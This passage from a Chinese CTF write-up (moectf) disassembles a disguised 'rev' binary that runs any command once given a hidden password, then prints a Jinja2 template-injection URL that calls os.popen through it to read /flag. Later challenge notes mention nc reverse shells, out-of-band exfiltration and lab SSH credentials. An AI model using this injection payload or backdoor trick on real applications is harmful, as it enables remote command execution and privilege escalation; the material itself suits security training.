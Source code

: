 ```assembly
117b: 	48 8d 05 82 0e 00 00 	lea    0xe82(%rip),%rax        # 2004 <_IO_stdin_used+0x4>
1182: 	48 89 c7             	mov    %rax,%rdi
```
程序从内存地址 `0x2004` 加载了一个字符串，并把它放到了 `%rdi` 寄存器里。这个地址 `0x2004` 正是我们之前在 `.rodata` 区看到的 `--HDdss` 字符串的起始位置。

```assembly
1185: 	e8 a6 fe ff ff       	call   1030 <strcmp@plt>
118a: 	85 c0                	test   %eax,%eax
118c: 	75 3e                	jne    11cc <main+0x83>
```
程序调用 `strcmp` 来比较输入的参数（在 `%rsi`）和隐藏的密码 `--HDdss`（在 `%rdi`）。如果两个字符串不相等(`jne`)，程序就会直接跳到后面，什么也不做。

```assembly
11be: 	48 8b 00             	mov    (%rax),%rax
11c1: 	48 89 d6             	mov    %rdx,%rsi
11c4: 	48 89 c7             	mov    %rax,%rdi
11c7: 	e8 74 fe ff ff       	call   1040 <execvp@plt>
```
程序把输入的第二个参数作为要执行的命令，把输入的第三个参数作为命令的参数，然后调用 `execvp` 来执行！

这个伪装的 `rev` 程序是一个通用的提权工具，它的用法是：

`/usr/bin/rev [密码] [要执行的命令] [命令的参数]`

*   **密码**：就是我们找到的 `--HDdss`。
*   **要执行的命令**：可以指定任何我们想执行的命令，比如 `/bin/cat`。
*   **命令的参数**：就是 `/flag`！

```
http://127.0.0.1:51925/?username={{ url_for.__globals__.__builtins__.__import__('os').makedirs('static', exist_ok=True) or url_for.__globals__.__builtins__.__import__('builtins').open('static/final_flag.txt','w').write( url_for.__globals__.__builtins__.__import__('os').popen('/usr/bin/rev --HDdss /bin/cat /flag').read() ) }}&password=1

http://127.0.0.1:51925/static/final_flag.txt
```

```
moectf{8c20281d-8245-18ad-8dae-fe437a5ccd77}
```

## 23 第二十三章 幻境迷心·皇陨星沉(大结局)

> 两个环境解释：
>
> 题目在容器dog-app(环境里只有sh,反弹shell时建议使用nc)
>
> rev-shel(堡垒机)请使用ssh（root:root123）登录, 可以做反弹shell（请用nc）或外带数据的服务端 (两容器完全共享同一个网卡，相互访问ip都是127.0.0.1，但端口不要冲突)
>
> 省流：题目环境使用openjdk8

```
jar xf demo.jar 
```
